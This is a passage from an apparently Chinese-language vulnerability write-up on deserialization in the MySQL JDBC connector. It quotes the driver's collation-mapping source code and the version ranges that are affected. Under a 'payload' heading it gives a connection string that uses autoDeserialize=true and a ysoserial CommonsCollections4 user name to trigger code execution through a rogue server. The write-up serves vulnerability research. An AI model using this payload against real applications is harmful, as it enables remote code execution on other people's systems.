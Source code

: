                 try {
                    results = stmt.executeQuery("SHOW COLLATION");
                    //版本大于5.0.0进入
                    if (this.versionMeetsMinimum(5, 0, 0)) {
                        //反序列化触发点
                        Util.resultSetToMap(sortedCollationMap, results, 3, 2);
                    } else {
                        while(results.next()) {
                            sortedCollationMap.put(results.getLong(3), results.getString(2));
                        }
                    }
                } catch (SQLException var31) {
                    if (var31.getErrorCode() != 1820 || this.getDisconnectOnExpiredPasswords()) {
                        throw var31;
                    }
                }
                ...
}` 

#### [payload](#toc_payload)

`String url = "jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&user=yso_CommonsCollections4_calc";
String username = "yso_CommonsCollections4_calc";
String password = "";
Class.forName("com.mysql.jdbc.Driver");
conn = DriverManager.getConnection(url,username,password);` 

[![](https://github.com/D0n9/paper_archive/blob/main/paper/picture/2023/2/1dbc0250-4f5a-4c32-aa48-6838381c4f5d.png?raw=true)
](https://storage.tttang.com/media/attachment/2022/12/30/9ec5c79c-6b62-463c-bc75-88032d8a06fd.png)

### [5.1.29-5.1.40](#toc_5129-5140)

com.mysql.jdbc.ConnectionImpl#buildCollationMapping()方法（mysql-connector-java 5.1.35）

`private void buildCollationMapping() throws SQLException {
    ...
    if (indexToCharset == null) {
        indexToCharset = new HashMap();
        //判断服务版本大于4.1.0且detectCustomCollations为true则进入
        //5.1.28此处判断条件只有服务版本大于4.1.0
        if (this.versionMeetsMinimum(4, 1, 0) && this.getDetectCustomCollations()) {
            java.sql.Statement stmt = null;
            ResultSet results = null;

            try {
                sortedCollationMap = new TreeMap();
                customCharset = new HashMap();
                customMblen = new HashMap();
                stmt = this.getMetadataSafeStatement();

                try {
                    //执行"SHOW COLLATION" SQL语句
                    results = stmt.executeQuery("SHOW COLLATION");
                    //若服务版本大于5.0.0进入
                    if (this.versionMeetsMinimum(5, 0, 0)) {
                        //调用com.mysql.jdbc.Util#resultSetToMap()方法获取"SHOW COLLATION"语句执行结果
                        Util.resultSetToMap(sortedCollationMap, results, 3, 2);
                    } else {
                        while(results.next()) {
                            sortedCollationMap.put(results.getLong(3), results.getString(2));
                        }
                    }` 
